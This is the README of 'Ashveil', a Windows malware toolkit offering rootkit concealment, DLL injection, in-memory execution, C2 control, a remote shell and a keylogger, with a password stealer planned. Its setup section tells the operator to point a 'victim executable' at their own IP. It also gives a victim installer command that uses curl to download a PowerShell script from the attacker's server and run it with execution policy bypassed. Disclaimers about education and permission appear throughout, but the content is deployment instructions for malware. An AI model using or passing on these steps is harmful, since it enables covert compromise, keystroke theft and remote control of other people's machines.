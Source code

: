 # **Ashveil - README**

## Overview

**Ashveil** is a powerful Windows-based tool designed to demonstrate advanced cybersecurity techniques, including **DLL injection**, **memory-based code execution**, and **C2 (Command and Control) server communication**. This tool provides a deep dive into **rootkit installation** and **stealth operations**, showcasing how attackers can gain remote control over compromised machines while evading common detection methods.

**Important Warning**: Ashveil is a highly dangerous tool that can be used to compromise and control systems. It is strictly intended for **educational purposes** within controlled environments, such as penetration testing, ethical hacking, or malware research. **Unauthorized use is illegal** and carries significant legal risks.

> **Disclaimer**: The creator is not responsible for any damage, harm, or illegal activity caused by the use or misuse of this tool. The tool should only be used in environments where the user has **explicit permission**.

## Features

- **Rootkit Installation**: Conceals malicious processes and files to evade detection from system monitoring tools (e.g., Task Manager and Windows Explorer).
- **DLL Injection**: Injects code into a target process to install a backdoor, bypassing traditional antivirus defenses.
- **Memory-based Execution**: Executes code directly in system memory, leaving no trace on disk and avoiding signature-based detection.
- **C2 Communication**: Allows the attacker to remotely control the compromised system via a C2 server. Payloads and actions can be modified in real-time.
- **Web Dashboard**: A user-friendly web interface to manage and monitor all connected clients, facilitating payload control and monitoring of infected systems.

## Upcoming Features

- **AES Encryption**: Payloads will be encrypted for secure communication over the network.
- **New Payloads**: Additional payloads will be developed, including a password stealer and a live viewer (real-time screen capture).
- **More Payload Options**: Future updates will include the ability to create custom payloads in shellcode.
- **Obfuscation Techniques**: Enhanced methods to avoid detection by antivirus software and other security tools.
- **Self-Maintenance**: Adding watchdogs and automatic updates for better tool functionality and longevity.

## Current Payloads

- **SHELL**: A remote shell that allows the attacker to execute commands on the victim machine. If the victim is running the rootkit, elevated permissions can be granted.
- **Keylogger**: Captures and logs all keystrokes typed by the user, sending the log back to the C2 server.

## Installation

### Prerequisites

- **Operating System**: Windows (tested on Windows 10)
- **Dependencies**: Install required Python libraries by running:
    ```bash
    pip install -r requirements.txt
    ```

### Setup

1. **Clone the Repository**:
    ```bash
    git clone --recurse-submodules https://github.com/madmaxvoltro/Ashveil.git
    cd Ashveil
    ```

2. **Install Dependencies**:
    ```bash
    pip install -r requirements.txt
    ```

3. **Configure the Victim Executable**:
   Set the victim executable to connect back to your server’s IP address.
   ```bash
   loader/InMemLoader.exe -SetIp <your ip>

4. **Running the Tool:**
   **Start the Server:** The server controls the attacker's environment and client connections.
   ```bash
   python server/server.py
   ```

5. **start the Attacker:** This will execute the payload on the victim machine.
   ```bash
   python attacker/attacker.py
   ```
6. **install on the victim pc:** this will be the installer command for victim
   ```powershell
   curl -A "Mozilla/5.0 (Windows NT 10.0; Win64; x64)" -o install.ps1 http://<ip>:7777/install && powershell -ExecutionPolicy Bypass -File .\install.ps1
   ```
## Configuration
### Modifying the Payload 
The payload and its behavior can be easily modified in the ``server/payloads/`` directory. You can create new payloads or modify existing ones by following these steps:
1. Open the ``server/payloads/`` directory.
2. Create a new C# file with your payload code or edit an existing one.
3. Restart the server to load the new or modified payload.
> **Note:** Payloads must be written in C# for compatibility with the tool.

### Customizing the C2 Server
You can adjust the behavior of the C2 server, including changing the communication port. For example, to change the server's port:
```python
# Example: Set custom port for the C2 server
port = 7777  # Change this to your desired port
```     
### important Safety & Legal Warnings
**Ashveil** is a **highly dangerous tool** capable of causing significant damage if used irresponsibly. It is classified as a **cyber weapon** due to its potential for malicious misuse.**

### Use Only in Ethical and Legal Environments
- **Ethical Use: Ashveil** should be used only in controlled environments, such as penetration testing labs, where you have **explicit consent** from the system owner.
- **Unauthorized Use:** Using this tool on systems without permission is **illegal** and punishable by law. The creator will not be held liable for any illegal actions or damage caused by this tool.

### License
This project is licensed under the MIT License – see the [LICENSE](https://github.com/madmaxvoltro/Ashveil/blob/main/LICENSE) file for details.

However, please note that this tool is only intended for educational and ethical research purposes. It should not be used for illegal activities. Misuse could result in legal consequences.

### Ethics & Responsible Use
**Ashveil** was created to provide educational insights into malware techniques and cybersecurity research. It is meant for **ethical hacking**, **red teaming**, and **penetration testing**    only. Use this tool exclusively in environments where you have explicit permission and legal authorization.

Never use this tool on systems you do not own or have express permission to test. Always adhere to best practices for responsible disclosure and cybersecurity.

### Acknowledgments
- **Rootkit Code:** The rootkit used in this project is based on code from another open-source project. Credits go to the original author, byte77.

### Contact 
If you have any questions, feedback, or need assistance, feel free to contact me via issues